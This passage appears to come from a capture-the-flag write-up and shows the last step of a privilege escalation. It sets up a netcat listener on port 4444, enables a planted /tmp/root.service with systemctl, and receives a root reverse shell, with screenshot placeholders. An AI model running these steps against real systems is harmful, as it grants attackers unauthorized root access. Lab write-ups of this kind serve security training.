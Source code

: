 Setup a netcat shell on the above defined service port:

```
nc -vnlp 4444
```

We start this service using:

```
/bin/systemctl enable --now /tmp/root.service
```

<figure><img src="../.gitbook/assets/run_with_systemctl.png" alt=""><figcaption><p>Starting root.service using systemctl</p></figcaption></figure>

We immediately get back the root shell at our netcat listener:

<figure><img src="../.gitbook/assets/root_netcat_shell.png" alt=""><figcaption><p>Netcat listener with root shell</p></figcaption></figure>

### Root FLAG
